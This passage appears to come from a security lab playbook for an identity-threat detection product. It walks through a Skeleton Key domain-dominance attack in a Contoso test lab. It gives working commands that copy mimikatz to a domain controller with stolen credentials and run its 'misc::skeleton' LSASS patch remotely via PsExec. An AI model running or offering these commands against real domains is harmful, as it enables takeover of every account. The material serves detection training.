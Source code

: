 ![Malicious replication being detected by AATP](media/playbook-dominance-maliciousrep_detected.png)

### Skeleton Key

Another domain dominance method attackers use is known as **Skeleton Key**. Using a Skeleton Key the attacker creates, the attacker can masquerade *as any user* at *any time*. In a Skeleton Key attack, every user can still sign in with their normal password, but each of their accounts is also given a master password. The new master password or Skeleton Key gives anyone who knows it, open access to the account. A Skeleton Key attack is achieved by patching the LSASS.exe process on the domain controller, forcing users to authenticate via a downgraded encryption type.

Let's use a Skeleton Key to see how this type of attack works:

1. Move **mimikatz** to **ContosoDC** using the **SamirA** credentials we acquired before. Make sure to push the right architecture of **mimikatz.exe** based on the architecture type of the DC (64-bit vs 32-bit). From the **mimikatz** folder, execute:

   ``` cmd
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

2. With **mimikatz** now staged on the DC, remotely execute it via PsExec:

   ``` cmd
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

3. You successfully patched the LSASS process on **ContosoDC**.

   ![Skeleton Key attack via mimikatz](media/playbook-dominance-skeletonkey.png)
